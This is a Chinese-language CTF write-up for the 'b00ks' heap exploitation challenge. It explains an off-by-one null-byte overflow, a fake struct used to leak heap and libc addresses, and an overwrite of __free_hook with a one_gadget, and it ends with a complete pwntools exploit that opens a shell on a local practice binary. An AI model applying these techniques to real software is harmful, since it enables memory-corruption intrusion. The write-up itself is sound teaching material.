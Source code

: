 # b00ks

## 程序静态分析

### main函数

> 使用`ida`对程序进行分析，并根据提示目录，重命名相应的程序，理解程序的流程

<img src="https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-20_20-05-02.png"  />



> 整个流程如上图所示较为清晰，**具体的每个函数就不再进一步分析了**

### 漏洞函数 ----my_read

> 在程序`Change_author_name`函数中，为了进行输入，作者自己构建了一个输入函数，在分析时，个人通过`ida`重命令将其命令为`my_read`，如下图所示

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-20_20-28-54.png)



## 漏洞原理分析

### 需要注意的细节：

- 首先通过程序分析，得到`author_name`和`book`的**数组**，都分配在栈上，**不是堆**，`author_name`的长度为`0x20`字节，紧跟其后的地址空间存储着`book数组`，该数组指向对应`book`的结构体空间
- 分析`Create_a_book`可以知道，创建一本书，会一次创建其对应`name`空间和`description`空间，以及该`book`的结构体`book_struct`，该结构体存储着指向相应地址空间的指针 (下面的原理图，会有细节介绍)
- 在堆上分配内存空间时，当分配的空间小于`128k`就会使用`brk`函数，当分配空间大于`128k`就会使用`mmap`函数，在这里需要使用`mmap`函数，通过其可确定的偏移来得到`libc`基地址
- 在`C/C++`中，字符串以`\X00`结尾，表示字符的结束，若该字符被覆盖，就会一直向后读，直到对应的`\x00`数据
- 在创建`book1`时，其`description`的空间需要足够大，因为后期通过`Null byte `的溢出，会覆盖`book1`部分数据，使其指向一个低地址，我们的目的是使这个**指向的低地址位于`description`的空间**，所以若该空间过小，这可能难以满足条件





### 图示exp漏洞利用流程

> **需要注明，以下`图中所展示的堆结构只展示了数据这部分，其chunk头没有标出`，所以在计算偏移时需要自己注意**

- 首先运行程序，然后是创建了两本书，结构如下图所示，**下图中，`book2`的`description`分配的较大，与现有的空间地址并不连续，所以没有画出，在图中已标出**，在创建该结构的过程中，我们已经通过`my_read`函数向`author_name`空间写入了32个`A`字符，根据前面的预备知识可知，该字符串需要`\x00`结尾，位于`book1`中，但是当我们创建`b00k1`,该内存空间被填充，`\x00`字符被覆盖，此时通过`print_a_book`选项输出`author_name`会将`book1`中的数据一起输出，这样我们就**得到`book1`的数据**

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-20_20-40-08.png)

- 由上图可知`book1`指向`book1_struct_1`,其间隔一个`struct`和一个`name`的空间即为`book_struct_2`，所以如果得到`book1`存储的数据，我们可以对应计算出`book_struct_2`的`name_ptr`和`description_ptr`的地址对应偏移为`0x68`,`0x70`(**图中仅展示了`chunk`的数据部分，计算偏移时需要考虑`chunk`头的大小**。首先是`book_strcut_1`大小为`0x20`,其次由于我`book2`的`name`的`size =0x20`即`chunk`的数据部分大小为`0x20`整个`name`的`chunk`为`0x30`，再然后`book_struct_2`的`chunk`头部为`0x10`所以**到`id`字段的偏移为`0x60`**,**0x60 = 0x20+0x30+0x10**,)
- 通过`book1`计算得到相应的地址后，我们将在`book1`的对应地址构建一个`fake_book1_struct`,并填充对应内容。使其指向`book_struct_2`的对应位置，如下图红色肩头所示所示：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-20_21-33-37.png)





- 通过向`author_name`写入32个字符，由于调用`my_read`函数，会发生越界，最后一个`\x00`数据会写入到`book`数组中`book1`的空间,导致`book1`部分数据被覆盖，从而指向`description`空间，如下图所示，**红线标注出`book1`指向地址改变，其中`book1`指向的地址和`description`开始的地址可能存在一定的位移偏差`offset`，需要根据自己的情况调试得到；当`book1`指向`description`区域时他就会将对应的空间数据解析为`book1`的结构体，即`fake_book1_struct`**

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-20_21-36-01.png)

- 通过打印`book1`的`description`得到了`book2`的`description_ptr`存储的数据，即`description`的起始地址，从而根据偏移计算出`libc`的地址，得到`libc`以后，便可根据偏移得到`__free_hook`和`execve`等函数的地址，通过编辑`book1`使`book2`的`description_ptr`指向`__free_hook`,然后通过编辑`book2`再使`__free_hook`指向`exevce`函数，构成利用链，如下图所示

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-20_21-43-43.png)



## EXP

**Attention:  该`exp`由于某些参数需要动态调试获得，只适用于本地环境**

```python
from pwn import *


context(os ="linux",arch= "amd64",log_level = "debug")
io = process("/home/always/PWN/b00ks")
libc = ELF("/home/always/Libc/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")

def createbook(name_size, name, des_size, des):
    io.readuntil("> ")
    io.sendline("1")
    io.readuntil(": ")
    io.sendline(str(name_size))
    io.readuntil(": ")
    io.sendline(name)
    io.readuntil(": ")
    io.sendline(str(des_size))
    io.readuntil(": ")
    io.sendline(des)

def printbook(id):
    io.readuntil("> ")
    io.sendline("4")
    io.readuntil(": ")
    for i in range(id):
        book_id = int(io.readline()[:-1])
        io.readuntil(": ")
        book_name = io.readline()[:-1]
        io.readuntil(": ")
        book_des = io.readline()[:-1]
        io.readuntil(": ")
        book_author = io.readline()[:-1]
    return book_id, book_name, book_des, book_author

def createname(name):
    io.readuntil("name: ")
    io.sendline(name)

def changename(name):
    io.readuntil("> ")
    io.sendline("5")
    io.readuntil(": ")
    io.sendline(name)

def editbook(book_id, new_des):
    io.readuntil("> ")
    io.sendline("3")
    io.readuntil(": ")
    io.writeline(str(book_id))
    io.readuntil(": ")
    io.sendline(new_des)

def deletebook(book_id):
    io.readuntil("> ")
    io.sendline("2")
    io.readuntil(": ")
    io.sendline(str(book_id))


createname("A" * 32)
createbook(5, "hello", 256, "a")
createbook(0x20, "aaaa", 0x21000, "bbbb")

book_id_1, book_name, book_des, book_author = printbook(1)
#--------leak book1_struct_addr--------------------
book1_addr = u64(book_author[32:32+6].ljust(8,b"\x00"))
log.success("book1_address:" + hex(book1_addr))
#---------------------------------------change the book_ptr and fake a book struct---------------
payload = b'A'*0xc0 + p64(1) + p64(book1_addr + 0x68) + p64(book1_addr + 0x70) + p64(0xffff)
editbook(book_id_1, payload)
changename("A" * 32)
#---------------------------------------leak the libc base ------------------------
book_id_1, book_name, book_des, book_author = printbook(1)
book2_name_addr = u64(book_name.ljust(8,b"\x00"))
book2_des_addr = u64(book_des.ljust(8,b"\x00"))
log.success("book2 name addr:" + hex(book2_name_addr))
log.success("book2 des addr:" + hex(book2_des_addr))

libc_base = book2_des_addr - 0x5ca010               #need to change 
log.success("libc base:" + hex(libc_base))
#gdb.attach(io)            #-------debug
#pause()
#-------------------------------------
free_hook = libc_base + libc.symbols["__free_hook"]
one_gadget = libc_base + 0x4527a    #need to change according situation 
log.success("free_hook:" + hex(free_hook))
log.success("one_gadget:" + hex(one_gadget))
editbook(1, p64(free_hook) )
editbook(2, p64(one_gadget))

deletebook(2)
#gdb.attach(io)            #-------debug
#pause()

io.interactive()
```

